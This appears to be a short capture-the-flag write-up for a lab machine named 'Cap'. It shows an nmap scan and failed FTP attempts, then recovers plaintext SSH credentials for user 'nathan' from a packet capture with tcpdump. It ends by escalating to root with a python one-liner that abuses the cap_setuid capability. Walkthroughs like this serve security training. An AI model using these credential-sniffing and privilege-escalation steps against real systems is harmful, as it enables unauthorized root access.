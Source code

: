 # Cap

## Nmap

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
```

## Fast and failed

- searchsploit vsftp v3.0.3: nothing
- bruteforcing ftp with default credentials: nothing

## Website

> Logged in as `Nathan`

Most likely the FTP / OS login too.

### Notifications

There's an offset panel with notifications and settings. Tweaking the css
brings it back into view:

```css
.offset-area{
	right: 0;
}
```

There's a notification about a failed login

> You missed you Password!
> 09:20 Am

### Network activity

Let's go through the network logs looking for the login attempts:

```bash
tcpdum -r ~/downloads/0.pcap -XX -A | grep -ia login
```

> nathan
> Buck3tH4TF0RM3!

The credentials work with ssh, golden!

## Escalation

`linpeas` tells us that python has `cap_setuid`!

```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash");'
```
